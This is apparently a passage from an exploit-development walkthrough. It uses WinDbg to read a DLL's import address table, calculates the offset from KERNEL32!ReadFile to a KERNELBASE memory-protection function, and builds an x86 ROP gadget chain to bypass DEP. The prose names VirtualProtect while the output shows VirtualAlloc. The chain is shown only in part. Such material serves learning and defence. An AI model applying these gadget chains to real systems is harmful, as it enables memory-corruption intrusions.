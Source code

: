 ```
  210000 [   130D0] address [size] of Base Relocation Directory
       0 [       0] address [size] of Debug Directory
       0 [       0] address [size] of Description Directory
       0 [       0] address [size] of Special Directory
       0 [       0] address [size] of Thread Storage Directory
       0 [       0] address [size] of Load Configuration Directory
       0 [       0] address [size] of Bound Import Directory
  16A000 [     614] address [size] of Import Address Table Directory
       0 [       0] address [size] of Delay Import Directory
       0 [       0] address [size] of COR20 Header Directory
       0 [       0] address [size] of Reserved Directory
0:007> dps 0x10000000+0x16A000 0x10000000+0x16A000+614*4
... snip ...
1016a044  773b3850 KERNEL32!WriteFile
1016a048  773b1bd0 KERNEL32!DisableThreadLibraryCallsStub
1016a04c  773b3670 KERNEL32!GetFullPathNameW
1016a050  773ae220 KERNEL32!MultiByteToWideCharStub
1016a0ac  773b3180 KERNEL32!CloseHandle
1016a0b0  773b3760 KERNEL32!ReadFile
```

Going to use:
```
1016a0b0  773b3760 KERNEL32!ReadFile
```

Now to find the offset to `KERNELBASE!VirtualProtect` (same method as above but for kernel32 instead of libspp.dll)
```
77411594  7728b770 KERNELBASE!VirtualAlloc
```

So we need an offset of `0x77411594 - 0x773b3760 = 0x05DE34`

So the chain we need is
```
pop esi; ret; # 0x1016a0b0 is on the stack
mov esi, dword ptr [esi]; ret;
add esi, 0x05DE34; ret;
mov esi, dword ptr [esi]; ret;
```

```
0x10043073: pop esi; ret;
```

I couldnt find a `mov esi, dword ptr [esi]; ret;` but found one for `eax` instead, so changing the rop chain to look like this:
```
0x10064def: pop edi; ret;
0x10040826: ret;
0x100fd644: pop eax; ret;
0x1016a0b0
0x1014fc8c: mov eax, dword ptr [eax]; ret;
0x1005edc5: pop ebp; ret;
0x05de34; 
0x100e5194: add eax, ebp; salc; ret;
0x10138850: mov esi, dword ptr [eax]; push eax; call edi;
```
